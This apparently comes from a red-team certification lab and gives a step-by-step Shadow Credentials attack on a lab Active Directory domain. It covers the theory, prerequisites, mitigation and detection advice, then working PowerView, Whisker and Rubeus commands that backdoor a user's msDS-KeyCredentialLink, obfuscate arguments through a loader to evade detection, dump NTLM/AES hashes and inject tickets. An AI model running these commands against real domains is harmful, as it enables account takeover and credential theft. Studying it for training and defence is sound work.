


CRTE - Certified Red Team Expert
Shadow Credentials - Abusing User Object
Shadow Credentials are a powerful and stealthy attack method that allows us to gain persistent access to an Active Directory (AD) environment by abusing the msDS-KeyCredentialLink attribute. This technique leverages public-key cryptography for authentication, enabling us to authenticate as a target user without knowing their password or modifying their existing credentials. It is particularly effective for persistence, lateral movement, and privilege escalation while remaining difficult to detect.
At the core of this attack is PKINIT (Public Key Cryptography for Initial Authentication), an extension of Kerberos that allows users to authenticate using asymmetric encryption instead of traditional passwords or NTLM hashes. When a user registers for passwordless authentication methods like Windows Hello for Business, AD stores their public key inside the msDS-KeyCredentialLink attribute. The corresponding private key, held by the user, allows them to prove their identity when authenticating.
The flaw that makes Shadow Credentials possible is that any account with GenericAll or GenericWrite permissions over another object in Active Directory can modify this attribute and inject their own public key. This means that if we identify an account where we have write permissions over its msDS-KeyCredentialLink attribute, we can insert our own cryptographic material and authenticate as that user. Because authentication via PKINIT does not rely on passwords, this technique allows us to completely bypass password-based security controls, including MFA.
To execute this attack, we first need to enumerate which accounts we can modify in Active Directory. This can be done using BloodHound or Get-ADObject. Once we have identified a vulnerable target, we generate a new key pair, extract the public key, and inject it into the target’s msDS-KeyCredentialLink attribute. From that moment, we can use our private key to request a Kerberos Ticket Granting Ticket (TGT) as that user. Tools like Rubeus allow us to request a TGT and authenticate as the compromised user without ever touching their password.
Shadow Credentials are particularly useful because they provide long-term persistence. Since the original credentials remain unchanged, password resets do not affect our access. Additionally, this method is stealthy, it does not generate authentication failures or NTLM hash extractions, making it much harder to detect compared to traditional attacks like Kerberoasting or Pass-the-Hash.
The attack can also be leveraged for privilege escalation. If we find a user with WriteProperty access over a privileged account, such as a Domain Admin, we can inject our own public key into that account and elevate our privileges without triggering traditional security alerts. This makes Shadow Credentials an effective alternative to Resource-Based Constrained Delegation (RBCD), as it does not require adding a new computer to the domain.
To mitigate this attack, it is critical to restrict write permissions on the msDS-KeyCredentialLink attribute. Only trusted administrative accounts should be able to modify this attribute. Regular Active Directory permission audits should be conducted to detect unauthorized modifications, and monitoring solutions should alert on unexpected changes to this attribute. Since Shadow Credentials rely on PKINIT, disabling PKINIT where not required or enforcing strict authentication policies can also help reduce the attack surface.
Detection is challenging but not impossible. Since msDS-KeyCredentialLink is not frequently modified, any unexpected changes to this attribute should be flagged as suspicious. Security teams should monitor for accounts suddenly authenticating via PKINIT when they previously relied on password-based authentication. Additionally, using Microsoft Defender for Identity (MDI) or SIEM solutions to track changes in AD object attributes can help detect the attack before it is exploited.
The hands-on implementation of this attack typically involves using tools like Whisker.exe to inject the public key into the target account and Rubeus to request a TGT using the injected key. Once a TGT is obtained, we can either request the NTLM hash of the compromised user or use the TGT for further lateral movement.
In practice, the attack can be performed by any user who has GenericWrite or GenericAll permissions over a target account. This means that even a low-privileged user could potentially escalate to a Domain Admin if they have the right permissions over a privileged account’s msDS-KeyCredentialLink attribute. The course materials also demonstrate how an attacker can apply this technique in a cross-domain attack scenario, leveraging misconfigurations in multi-domain or hybrid identity environments.
Shadow Credentials represent a modern and highly effective method for persistence and escalation in Active Directory. Unlike traditional credential theft methods that rely on dumping NTLM hashes or cracking Kerberos tickets, this technique exploits Active Directory’s own cryptographic authentication mechanisms. Since it operates within legitimate authentication flows, it does not generate typical compromise indicators, making it an advanced and stealthy attack technique. Organizations must be proactive in auditing AD permissions, monitoring attribute modifications, and enforcing strong authentication policies to defend against it.
To successfully abuse Shadow Credentials, we need to meet specific prerequisites. Since this attack leverages Active Directory’s msDS-KeyCredentialLink attribute and PKINIT authentication, certain conditions must be met for it to work.
- We must have Write Access to the
msDS-KeyCredentialLinkattribute of the target account. This means our user must have eitherGenericAllorGenericWritepermissions over the target user or computer object in Active Directory. Without this, we cannot inject our own public key for authentication. - PKINIT (Public Key Cryptography for Initial Authentication) must be enabled in the domain. This allows authentication using asymmetric keys instead of passwords. PKINIT is required for Kerberos authentication using certificates, which is the basis of this attack.
- The target domain must have at least one Domain Controller running Windows Server 2016 or later. The
msDS-KeyCredentialLinkattribute was introduced in newer versions of Active Directory, so at least one domain controller must support it. - The target account must not have existing protections preventing modifications to the
msDS-KeyCredentialLinkattribute. If strict ACLs (Access Control Lists) are enforced, we may not be able to modify the attribute even if we have some write permissions over the object. - Active Directory Certificate Services (AD CS) must be in use, or Key Trust authentication must be present. Shadow Credentials rely on public-key authentication, and AD CS or Key Trust mechanisms ensure that certificates are accepted for authentication.
- The attacker needs a valid certificate or must be able to generate an RSA key pair. Since we are injecting a new key into the target’s AD object, we need to generate a valid RSA key pair to later request Kerberos tickets.
- The attack works best when the target account is actively used. If the target account is disabled or unused, obtaining a Kerberos ticket through PKINIT may not be useful for lateral movement or persistence.
If all these prerequisites are met, we can proceed with injecting our public key into the target's msDS-KeyCredentialLink attribute, then use the private key to request Kerberos TGTs and impersonate the target user without ever knowing their password.
Enumerating GenericAll / GenericWrite
Let’s enumerate if our Current user studentuser163 has GenericWrite/GenericAll permission over an object in our domain using PowerView module.
Let’s import PowerView.
Import-Module .\PowerView.ps1Find-InterestingDomainACL -ResolveGUIDs | ?{$_.IdentityReferenceName -Match 'studentuser163'}
I was not able to find any valid object that we do have these rights, let’s now see if the group that we are part of “studentusers”, have some of these rights as well. The so called nested rights.
Find-InterestingDomainACL -ResolveGUIDs | ?{$_.IdentityReferenceName -Match 'studentusers'}

As we can see above, as member of studentusers we have GenericAll over a user named Support151Users.
Ok, so let’s now use a tool called Whisker.exe to manipulate our targetSupport151User's msDs-KeyCredentialLink .
C:\AD\Tools\Whisker.exe add /target:Support151User

Whisker.exe execution is abusing Shadow Credentials by injecting a new public key into the msDS-KeyCredentialLink attribute of the target account Support151User.
- Searching for the Target Account – Whisker first confirms that the user Support151User exists in Active Directory under the domain
us.techcorp.local. - Generating a New Certificate and Key Pair – Since no path or password was provided, Whisker automatically generates a new certificate and private key. The private key is stored with the password
EzczQ99yN4eM9FXQ, while the certificate is printed as a Base64-encoded blob. - Generating a KeyCredential – This step creates a cryptographic key object that will be injected into Active Directory.
- Updating the
msDS-KeyCredentialLinkAttribute – Whisker injects the newly generated public key into themsDS-KeyCredentialLinkattribute of the target account Support151User. This means that from now on, authentication can happen using the private key rather than a password. - Providing the Command to Use Rubeus – Now that the key is injected, Whisker gives us the Rubeus command to request a Kerberos Ticket Granting Ticket (TGT) using our newly added certificate. This command allows us to authenticate as Support151User without knowing their password.
By running Whisker, we have backdoored the account Support151User. Now, instead of needing their password or NTLM hash, we can simply use our generated private key to authenticate via PKINIT (Public Key Cryptography for Initial Authentication). This means we can request Kerberos tickets, impersonate the user, and perform lateral movement or privilege escalation stealthily, without triggering common authentication-based detections.
Since authentication is happening through Kerberos and certificates, this method bypasses MFA and does not modify the original password, making it extremely difficult for defenders to detect.
After using Whisker.exe we should double check if our target user now contains the msds-keycredentiallink flag set and we can do this using PowerView.
`Import-Module .\PowerView.ps1
Get-DomainUser -Identity 'Support151User'  The target contains the flag set. When using Rubeus after successfully injecting Shadow Credentials, we have two main options: /ptt (Pass-The-Ticket) and /getcredentials`.
The key difference between them lies in how they leverage the Kerberos Ticket Granting Ticket (TGT) we obtain.
Key Differences and Use Cases
| Option | Purpose | Best For | Persistence | Detection Risk |
|---|---|---|---|---|
/ptt (Pass-The-Ticket) |
Injects Kerberos ticket into memory | Quick authentication | Only lasts as long as the session | Moderate (Memory-based detection) |
/getcredentials |
Extracts NTLM/AES hashes | Hash-based attacks (Pass-the-Hash, Golden Ticket) | Can be used for long-term persistence | High (Credential dump detection) |
Which One Should We Use?
- If we need immediate access as the user,
/pttis the best choice. - If we want persistent access,
/getcredentialslets us store hashes for later use. - If we suspect detections on credential dumping,
/pttmay be safer since it only injects a ticket instead of dumping sensitive data.
For stealth, /ptt is better because hash extraction is often monitored. However, if we need full credentials for long-term attacks, /getcredentials is the way to go.
(/Getcredentials)
When using /getcredentials, we are not injecting a TGT into memory. Instead, we are requesting and retrieving the target’s NTLM hash and AES keys from the domain controller. This gives us the ability to perform Pass-the-Hash (PtH) attacks or even craft Golden Tickets for long-term persistence.
When to Use It:
- When we want long-term access rather than just a Kerberos ticket.
- If we plan to perform pass-the-hash (PtH) or golden ticket attacks.
- When we need the plaintext password hash or AES keys for offline attacks.
This command will authenticate as the user and retrieve their credentials (NTLM hash, AES keys, etc.).
What Happens Under the Hood:
- Rubeus requests a TGT using the certificate.
- Instead of injecting it, it queries the domain controller for stored credentials.
- The output will include NTLM, AES128, and AES256 hashes, which can be used for further attacks.
Let’s Encode our Rubeus argument(asktgt) using ArgSplit.bat file and do the copy/paste of the encoded argument into our session.
ArgSplit.bat

Let’s now run Rubeus.
C:\AD\Tools>C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Support151User /certificate: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 /password:"vwLzlLCEOeexkQ55" /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /getcredentials /show

(/ptt) Pass the ticket
When we use /ptt (Pass-The-Ticket) in Rubeus, we are requesting a TGT (Ticket Granting Ticket) for the target user and injecting it into memory. This allows us to immediately act as that user without needing their password, NTLM hash, or AES keys.
When to Use It:
- When we want instant authentication as the target user without extracting their credentials.
- If our goal is to perform lateral movement or access domain resources.
- Works well for attacks where we need a quick Kerberos authentication session.
This command will request a TGT, inject it into memory, and allow us to use the Support151User session immediately.
What Happens Under the Hood:
- Rubeus requests a TGT from the KDC using our injected certificate.
- The TGT is injected into memory.
- We can then use tools like
klistto confirm the ticket is present. - From here, we can execute commands as the impersonated user without needing their password.
Let’s Encode our Rubeus argument(asktgt) using ArgSplit.bat file and do the copy/paste of the encoded argument into our session.
ArgSplit.bat

Let’s now run Rubeus.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Support151User /certificate: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 /password:"vwLzlLCEOeexkQ55" /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ptt

We can now access any resource as user Support151User.